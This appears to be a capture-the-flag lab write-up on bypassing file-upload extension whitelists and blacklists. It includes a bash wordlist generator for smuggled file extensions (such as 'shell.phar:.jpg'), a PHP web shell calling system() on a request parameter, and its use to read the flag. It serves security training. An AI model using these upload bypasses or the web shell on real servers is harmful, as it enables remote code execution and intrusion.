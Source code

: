 # Whitelist Filters

The above exercise employs a blacklist and a whitelist test to block unwanted extensions and only allow image extensions. Try to bypass both to upload a PHP script and execute code to read "/flag.txt"

In some cases whitelists may be used to prevent malicious threats for uploading unintended file formats.

<figure><img src="../../../.gitbook/assets/image (135).png" alt=""><figcaption></figcaption></figure>

Lets capture the upload request and fuzz the extension like in the previous exercise.&#x20;

<figure><img src="../../../.gitbook/assets/image (9) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Lets also add the following php code to ensure it's being executed:

```php
<?php echo "shell test";?>
```

This time, we'll create our own wordlist. We will adapt the bash script from HTB and add two more extensions ending up with a script like this:

```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps' 'php3' '.phar'; do
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done
```

Just paste it on your machine and press enter to execute it, and then copy the content to the Intruder's payload configuration and click `Start attack`.

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

As we can see from the image above, the requests with a 230 length have the message "File successfully uploaded".

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now we need to know if the actual php code was executed. Hide all the columns besides the column "Payload", and copy all it's content to other file so we can have another wordlist.

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Go to the main page and open "image" in a new tab.

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

It looks we may have found a working payload. And don't need to fuzz it anymore. Now let's modify the POST request.

```php
<?php system($_REQUEST['cmd']); ?>
```

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And it was uploaded! Now let's go the previous URL and modify it to `/shell.phar:.jpg?cmd=id`.

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And it worked! Now lets look for the flag.

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Like in the previous sections the flag is under the root directory.

<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And here it is, we found our flag!

